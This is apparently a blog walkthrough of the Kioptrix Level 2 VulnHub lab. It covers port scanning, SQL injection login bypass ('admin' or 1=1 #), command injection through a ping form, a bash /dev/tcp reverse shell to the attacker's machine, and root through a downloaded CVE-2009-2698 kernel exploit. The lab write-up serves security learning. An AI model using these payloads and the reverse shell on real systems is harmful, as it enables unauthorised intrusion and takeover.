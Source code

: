 _Kioptrix 2 VM can be downloaded [here](https://www.vulnhub.com/entry
/kioptrix-level-11-2,23/)._  

## 0\. Get VMs IP

    
    
    root@kali:~# netdiscover -r 192.168.1.0/24  
      
     Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                                                      
                                                                                                                                                                                                                        
     260 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 15600                                                                                                                                                
     _____________________________________________________________________________  
       IP            At MAC Address     Count     Len  MAC Vendor / Hostname        
     -----------------------------------------------------------------------------  
     192.168.1.67    c4:e9:84:10:d3:5e    255   15300  TP-LINK TECHNOLOGIES CO.,LTD.                                                                                                                                    
     **...**  
    

  

## 1\. Enumeration

#### 1.1 TCP Ports enumeration

  

    
    
    root@kali:~# nmap 192.168.1.67 -sV  
      
    Starting Nmap 7.31 ( https://nmap.org ) at 2016-12-15 00:30 EST  
    Nmap scan report for 192.168.1.67  
    Host is up (0.000049s latency).  
    Not shown: 994 closed ports  
    PORT     STATE SERVICE  VERSION  
    22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)  
    80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))  
    111/tcp  open  rpcbind  2 (RPC #100000)  
    443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))  
    631/tcp  open  ipp      CUPS 1.1  
    3306/tcp open  mysql    MySQL (unauthorized)  
    MAC Address: C4:E9:84:10:D3:5E (Tp-link Technologies)  
      
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
    Nmap done: 1 IP address (1 host up) scanned in 16.64 seconds  
    

  
Hmm, some interesting services we see running on the machine. Most of these
are pretty old. I did a quick search for existing exploits and didn't find
any. It's still very possible that other vulnerabilities exist, yet I decided
to check the web server running first.  
  
Note: I didn't do a full TCP scan as it was taking way too long. Running it in
the background after the initial scan is might be useful.  
  

## 2\. Web server

#### 2.1 Login form

**Remote System Administration Login**  
---  
Username |  
Password |  
  
Hitting http://192.168.1.67 shows us a login form, possibly vulnerable to SQL
injection. I tried the vanilla **admin' or 1=1 #** and it worked!  
  
Why did it work? Possibly because the query is in this form:  
  

    
    
    SELECT * from users where username="$_REQUEST["username"]" and password="$_REQUEST["password"]"  
    

  
After submitting **admin" or 1=1 #**, it's evaluated to:  
  

    
    
    SELECT * from users where username="admin" or 1=1 # _" and password="$_REQUEST["password"]"_  
    

  
which logs us in as admin.  
  

#### 2.2 Admin interface

####  

####  **Welcome to the Basic Administrative Web Console**  
---  
Ping a Machine on the Network:  |  
  
  
This looks very vulnerable to an RCE (Remote Code Injection) attack. Let's try
appending commands to it.  
  

  * **Input:**  127.0.0.1 ** **  
**Output:**   
  

    
         127.0.0.1  
      
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.  
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.010 ms  
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms  
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.012 ms  
      
    --- 127.0.0.1 ping statistics ---  
    3 packets transmitted, 3 received, 0% packet loss, time 1998ms  
    rtt min/avg/max/mdev = 0.010/0.011/0.012/0.003 ms, pipe 2  
    

  

  * **Input:**  127.0.0.1; whoami** **  
**Output:**   
  

    
        127.0.0.1; whoami  
      
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.  
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.007 ms  
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms  
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.013 ms  
      
    --- 127.0.0.1 ping statistics ---  
    3 packets transmitted, 3 received, 0% packet loss, time 1999ms  
    rtt min/avg/max/mdev = 0.007/0.010/0.013/0.004 ms, pipe 2  
    **apache**  
    

  
**whoami **command** **returned apache! We're able to execute arbitrary commands. Let's get a shell by starting a listener on attacking machine.  
  
  

    
    
    root@kali:~# nc -nvlp 443  
    listening on [any] 443 ...  
    

  
Then getting a reverse shell connected to it.  
  
**Input:** 127.0.0.1; bash -i &gt;&amp; /dev/tcp/192.168.1.69/443 0&gt;&amp;1  
**Output on attacking machine:**  
  

    
    
    root@kali:~# nc -nvlp 443  
    listening on [any] 443 ...  
    connect to [192.168.1.69] from (UNKNOWN) [192.168.1.67] 32769  
    bash: no job control in this shell  
    bash-3.00$   
    

  
Awesome! We got a shell as apache user.  
  

## 3\. Getting root

Basic enumeration will reveal that this CentOS version **(4.5 Final) **is
vulnerable to  [ CVE-2009-2698 ](https://cve.mitre.org/cgi-
bin/cvename.cgi?name=CVE-2009-2698)  
Exploit can be found [here](https://www.exploit-db.com/exploits/9542/).  
  
  

    
    
    root@kali:~# nc -nvlp 443  
    listening on [any] 443 ...  
    connect to [192.168.1.69] from (UNKNOWN) [192.168.1.67] 32769  
    bash: no job control in this shell  
    bash-3.00$ cat /etc/issue  
    Welcome to Kioptrix Level 2 Penetration and Assessment Environment  
    --The object of this game:  
    |_Acquire "root" access to this machine.  
    There are many ways this can be done, try and find more then one way to  
    appreciate this exercise.  
    DISCLAIMER: Kioptrix is not resposible for any damage or instability  
    caused by running, installing or using this VM image.  
    Use at your own risk.  
    WARNING: This is a vulnerable system, DO NOT run this OS in a production  
    environment. Nor should you give this system access to the outside world  
    (the Internet - or Interwebs..)  
      
    Good luck and have fun!  
    bash-3.00$ uname -a  
    Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux  
    bash-3.00$ uname -mrs  
    Linux 2.6.9-55.EL i686  
    bash-3.00$ cat /etc/redhat-release  
    CentOS release 4.5 (Final)  
    bash-3.00$ cd /tmp  
    bash-3.00$ wget https://www.exploit-db.com/download/9542 --no-check-certificate  
    --23:08:44--  https://www.exploit-db.com/download/9542  
               => `9542'  
    Resolving www.exploit-db.com... 192.124.249.8  
    Connecting to www.exploit-db.com|192.124.249.8|:443... connected.  
    WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate  
    WARNING: certificate common name `*.sucuri.net' doesn't match requested host name `www.exploit-db.com'.  
    HTTP request sent, awaiting response... 200 OK  
    Length: 2,645 (2.6K) [application/txt]  
      
        0K ..                                                    100%  210.21 MB/s  
      
    23:08:45 (210.21 MB/s) - `9542' saved [2645/2645]  
      
    bash-3.00$ ls  
    9542  
    index.html  
    bash-3.00$ mv 9542 a.c  
    bash-3.00$ gcc a.c  
    bash-3.00$ ./a.out  
    sh: no job control in this shell  
    sh-3.00#   
    

  
Quite easy and straight forward! ~~Gonna write Kioptrix 3 soon.. ~~Kioptrix 3
writeup can be read [here](http://www.abatchy.com/2016/12/kioptrix-3
-walkthrough-vulnhub.html).  
  
_Currently listening to: [Altar Of Plagues - Earth: As A
Womb](https://www.youtube.com/watch?v=pDnMUyLYJDo)_

